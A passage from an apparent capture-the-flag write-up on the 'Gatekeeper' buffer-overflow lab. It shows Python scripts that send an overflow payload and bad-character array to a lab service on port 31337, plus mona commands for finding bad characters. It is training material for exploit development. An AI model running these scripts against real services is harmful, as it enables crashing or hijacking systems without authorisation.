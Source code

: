 ```python
  b"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
  b"\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
)

try:
      print("Sending Payload...")
      s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
      s.connect(('192.168.0.24',31337))
      s.send(payload + badchars + b'\r\n')
      print("Payload sent...")
      s.close()

except:
      print("Cannot connect to the server")
      sys.exit()
```

- restart gatekeeper in immunity and run exploit with the badchars
- note the address ESP registers **015619F8**
- in Moma lets run the memory comparison
- ``!mona compare -f C:\mona\gatekeeper\bytearray.bin -a 015619F8``

![0xskar](/assets/gatekeeper07.png)

- We can gerate a new bytearray in mona, with the badchars and then update our payload and send it though again hopyfully returning Unmodified.
- ``!mona bytearray -b "\x00\x0a"``

```shell
import socket
import sys

offset = 146
payload = b"A" * offset + b"B" * 4
badchars = (
  b"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0b\x0c\x0d\x0e\x0f\x10"
  b"\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
  b"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
  b"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
  b"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
  b"\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
  b"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
  b"\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
  b"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
  b"\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
  b"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
  b"\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
  b"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
  b"\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
  b"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
  b"\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
)

try:
      print("Sending Payload...")
      s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
      s.connect(('192.168.0.24',31337))
      s.send(payload + badchars + b'\r\n')
      print("Payload sent...")
      s.close()

except:
      print("Cannot connect to the server")
      sys.exit()
```